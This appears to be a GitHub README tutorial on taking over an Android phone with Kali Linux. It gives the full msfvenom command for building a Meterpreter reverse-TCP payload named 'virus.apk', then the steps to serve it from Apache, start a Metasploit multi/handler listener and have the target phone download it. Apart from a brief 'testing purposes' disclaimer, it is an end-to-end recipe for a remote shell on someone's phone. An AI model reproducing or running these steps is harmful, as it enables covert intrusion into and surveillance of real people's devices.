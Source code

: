 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. **A file with all the configuration done will be uploaded in the future**

**More info at https://www.kali.org/**

## 1) Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

**You can know th IP adress of your device by entering ```ifconfig```**

## 2) Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make sure if it is running by entering this command.

```sudo service apache2 status```

**If you see as an output that it is offline, then turn it on with the following command.**

```sudo service apache2 start```

### 3) Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.

```scp virus.apk /var/www/html/```

 **Verify if the file has been uploaded with this command**
 
 ```cd /var/www/html/ & ls```
 
 ## 4) Setting up the msfconsole
 
 Now we need to set up a listener in order for capturing any activity signals from a victim. In order to do so, enter the following commands.
 
 **Start the console** ```msfconsole```
 
 **Start the multi handler** ```use multi/handler```
 
 **Set the payload** ```set PAYLOAD android/meterpreter/reverse_tcp```
 
 **Set the Host IP** ```set LHOST (THE IP ADRESS USED BEFORE WITHOUT THE BRACKETS)```
 
 **Set the port** ```set LPORT 8080```
 
 **Start the process!** ``exploit``
 
 ## 5) Downloading the malicous file in the target device.
 
 Open the phones browser, and type the ip adress as you did before followed by this ```/virus.apk```
 
 **The link should look something like this; 192.168.0.152/virus.apk**

## **The process is finally done. You can now try atacking the phone with the console. Type ```help``` to list all the commands aviable. Enjoy! :D**

